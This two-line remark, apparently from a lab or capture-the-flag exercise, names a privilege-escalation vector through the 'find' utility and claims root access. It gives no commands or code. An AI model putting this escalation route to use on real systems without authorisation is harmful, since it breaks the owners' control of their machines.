This is a **Privilege Escalation Vector via `find`** vulnerability.

I got `root`!